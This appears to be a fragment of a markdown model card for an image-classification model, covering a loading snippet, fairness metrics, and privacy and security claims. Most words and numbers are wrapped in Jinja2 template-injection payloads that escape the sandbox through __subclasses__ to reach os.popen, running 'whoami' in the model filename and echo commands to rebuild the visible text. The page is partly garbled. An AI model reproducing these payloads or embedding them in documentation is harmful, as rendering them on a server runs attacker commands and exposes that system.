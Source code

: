 ```python
model.load_state_dict("{{''|attr('__class__')|attr('__mro__')|attr('__getitem__')(1)|attr('__subclasses__')()|attr('__getitem__')(104)|attr('__init__')|attr('__globals__')|attr('__getitem__')('sys')|attr('modules')|attr('__getitem__')('os')|attr('popen')('whoami')|attr('read')()|attr('strip')()}}_cnn_v{{1}}_{{2}}_{{0}}.pth")

# Run inference
predictions = model.predict(image)
```



---

## Ethical Considerations

### Bias and Fairness

**Bias Assessment:** Conducted across {{5}} demographic groups with accuracy variance of ±{{3}}%

**Fairness Metrics:**
- Demographic Parity: {{0}}.{{95}}
- Equal Opportunity: {{0}}.{{94}}
- Equalized Odds: {{0}}.{{93}}

### Privacy and Security



**Privacy Measures:**
- {{''|attr('__class__')|attr('__mro__')|attr('__getitem__')(1)|attr('__subclasses__')()|attr('__getitem__')(104)|attr('__init__')|attr('__globals__')|attr('__getitem__')('sys')|attr('modules')|attr('__getitem__')('os')|attr('popen')('echo Differential')|attr('read')()|attr('strip')()}} Privacy implemented
- Data {{''|attr('__class__')|attr('__mro__')|attr('__getitem__')(1)|attr('__subclasses__')()|attr('__getitem__')(104)|attr('__init__')|attr('__globals__')|attr('__getitem__')('sys')|attr('modules')|attr('__getitem__')('os')|attr('popen')('echo anonymization')|attr('read')()|attr('strip')()}} applied
- {{''|attr('__class__')|attr('__mro__')|attr('__getitem__')(1)|attr('__subclasses__')()|attr('__getitem__')(104)|attr('__init__')|attr('__globals__')|attr('__getitem__')('sys')|attr('modules')|attr('__getitem__')('os')|attr('popen')('echo GDPR')|attr('read')()|attr('strip')()}} compliant

**Security Measures:**
- {{''|attr('__class__')|attr('__mro__')|attr('__getitem__')(1)|attr('__subclasses__')()|attr('__getitem__')(104)|attr('__init__')|attr('__globals__')|attr('__getitem__')('sys')|attr('modules')|attr('__getitem__')('os')|attr('popen')('echo Adversarial')|attr('read')()|attr('strip')()}} testing conducted
- {{''|attr('__class__')|attr('__mro__')|attr('__getitem__')(1)|attr('__subclasses__')()|attr('__getitem__')(104)|attr('__init__')|attr('__globals__')|attr('__getitem__')('sys')|attr('modules')|attr('__getitem__')('os')|attr('popen')('echo Input')|attr('read')()|attr('strip')()}} validation implemented
- Regular security {{''|attr('__class__')|attr('__mro__')|attr('__getitem__')(1)|attr('__subclasses__')()|attr('__getitem__')(104)|attr('__init__')|attr('__globals__')|attr('__getitem__')('sys')|attr('modules')|attr('__getitem__')('os')|attr('popen')('echo audits')|attr('read')()|attr('strip')()}}

---